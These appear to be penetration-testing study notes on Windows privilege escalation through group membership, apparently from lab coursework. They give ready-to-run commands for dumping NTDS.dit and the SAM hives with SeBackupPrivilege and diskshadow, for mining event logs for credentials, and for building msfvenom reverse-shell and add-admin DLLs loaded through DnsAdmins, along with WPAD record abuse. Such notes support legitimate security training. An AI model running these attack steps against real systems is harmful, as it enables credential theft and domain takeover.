 Backup Operators 
	[SeBackup Privilege]([https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges))
		Allows to traverse any folder and list contents and copy a file from a folder even with no ACE. 
		Need to copy the data specifying the [FILE_FLAG_BACKUP_SEMANTICS](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)
			Exploiting privilege 
			https://github.com/giuliano108/SeBackupPrivilege
			Import the Libraries:
				`Import-Module .\SeBackupPrivilegeUtils.dll`
				`Import-Module .\SeBackupPrivilegeCmdLets.dll`
			Turn on the privileges 
				`whoami /priv`
				`Get-SeBackupPrivilige`
				`Set-SeBackupPrivilege`
			Copy a protected file 
				`Copy-FileSeBackupPrivilege '<path to file>' .\<filename>.txt`
			Read the file
			Use [diskshadow](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) to attack a domain controller with NTDS.dit
				Contains all the NTLM hashes for all users in the domain.
				Use diskshadow utility to create a copy of the C drive and expose it in the E drive
				`diskshadow.exe`
				`set verbose on`
				`set metadata`
				`set context clientaccesible`
				`set contect persistent`
				`begin backup`
				`add volume C: alias cdrive`
				`create`
				`expose %cdrive%` E:
				`end backup`
				`exit`
				`dir E:`	`
			Bypass the ACL and copy the NTDS locally
				`Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit`
			Extract credentials from NTDS.dit
				`Import-Module .\DSInternals.psd1`
				`$key = Get-BootKey -SystemHivePath .\SYSTEM'
				`Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key`
				Using SecretsDump.py
					`secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL'
				CopyFiles with Robocopy
					`robocopy /B E:\Windows\NTDS .\ntds ntds.dit`
		Backup the SAM and SYSTEM registry hives.
			`reg save HKLM\SYSTEM SYSTEM.SAV`
			`reg save HKLM\SAM SAM.SAV`
[Event Log Readers](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers>)
	Confirm group membership 
		`net localgroup "Event Log Readers"`
	Query windows events using [wevutil (CMD)](<Windows/PrivEsc/Windows Group Privileges.md>) Or [Get-WinEvent(PS)](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.3&viewFallbackFrom=powershell-7.1)
		Search for security Logs. 
			CMD
				`wevtutil qe Security /rd:true /f:text | Select-String "/user"
			Powershell
				`Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`
		Pass Credentials to wevutil 
			`wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
DNS Admins
	DNS service runs as "NT AUTHORITY/ SYSTEM"
	Use [DNSCMD](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)to run an [exploit](https://adsecurity.org/?p=4064)
		Explanation
			DNS management is performed over RPC 
			[ServerLevelPluginDLL](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows custom DLL with no verification to be loaded in with [dnscmd](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) tool from CLI.	`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` populates a registry key.
			When the DNS service is restarted the DLL path will be loaded. Custom DLL can obtain a reverse shell. 
			Very destructive action.
		Running the exploit:
			Generate malicious DLL:
				`msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll'
				`msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= --platform=windows -f dll > reverseshell.dll`
			Transfer file across to target 
			Load DLL as Non-Privileged User:
				Only DnsAdmins can do this.
				`dnscmd.exe /config /serverlevelplugindll <path to dll>
			Load DLL as member of DnsAdmins:
				`Get-ADGroupMember -Identity DnsAdmins`
			Load Custom DLL:
				` dnscmd.exe /config /serverlevelplugindll <path to dll>
				(Must specify full path)
			Find Users SID
				`wmic useraccount where name="netadm" get sid`
			Check permissions on DNS service
				`sc.exe sdshow DNS`
					[Understand the output](https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/)
			Stop the DNS service
				`sc stop dns
			Start the DNS service
				`sc start dns`
			Confirm account has been added to the Domain Admins
				`net group "Domain Admins" /dom`
			Check DNS
				`sc query` 
		Cleaning up:
			Confirm registry key is added 
				`reg query \\<ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters`
			Delete Registry key 
				`reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll`
			Start the DNS service again
				`sc.exe start dns`
			Check the DNS 
				`sc query dns`
		[Exploit](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) using [Mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)
			Modify this [file](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) to execute a reverse shell one-liner 
		Exploit using a WPAD Record 
			Allows disabling of [global query block security](https://learn.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps)
			Running the exploit
				Disable the global query block list
					`Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local`
				Add a WDAP record 
					`Add-DnsServerResourceRecordA -Name wpad -ZoneName <domain name>.local -ComputerName dc01.<domain name>.local -IPv4Address <ip>`
s